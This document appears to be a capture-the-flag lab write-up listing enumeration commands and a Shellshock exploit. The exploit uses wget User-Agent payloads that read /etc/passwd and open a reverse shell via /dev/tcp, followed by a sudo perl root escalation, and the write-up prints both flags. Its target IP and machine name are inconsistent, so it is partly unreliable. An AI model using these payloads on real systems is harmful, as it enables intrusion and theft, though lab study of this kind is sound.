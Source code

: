 # Armageddon 

>  Easy | Linux 

<br>

### Process:

1. port scan:
	- `sudo nmap -T4 -p- 10.10.10.233` 
	- `sudo nmap -T4 -A -p 80,2222 10.10.10.233` 
2. enumerate port 22:
	- try anonymous connection - failed
	- read banner = OpenSSH 7.4
3. enumerate port 80:
	- visit website `http://10.10.10.233`
	- run gobuster: `gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x bak,conf,txt,js,php`
	- check for robots.txt - none 
	- run nikto scan: `nikto -h 10.10.10.56`
	- run gobuster again: `gobuster dir -u http://10.10.10.56 -w /usr/share/seclists/Discovery/Web-Content/common.txt`
	- try "cgi-bin" directory for files: `gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x bak,conf,txt,js,php,sh`
		- found "user.sh"
	- test for shellshock vulnerability (Linux host with script in /cgi-bin):
		- `sudo nmap --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56 -p 80`
		- target is vulnerable 
	- try to execute commands:
		- `wget -U "() { foo;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://10.10.10.56/cgi-bin/user.sh && cat user.sh`
		- success 
	- create a web shell:
		- `wget -U "() { foo;};echo; /bin/bash -i >& /dev/tcp/10.10.14.135/1234 0>&1" http://10.10.10.56/cgi-bin/user.sh`
4. get user flag
	- `cd ~` -> `cat user.txt`
	- user flag = **ead141c08df151d44c73953169776c62**
5. escalate privileges
	- check sudo permissions: `sudo -l` -- have root access to /usr/bin/perl 
	- lookup on GTFO Bins -- found exploit: `sudo perl -e 'exec "/bin/sh";'`
	- get root flag:
		- `cat /root/root.txt`
		- root flag = **25d793a4e484b3e51d16f0be17b99e98**
	
	
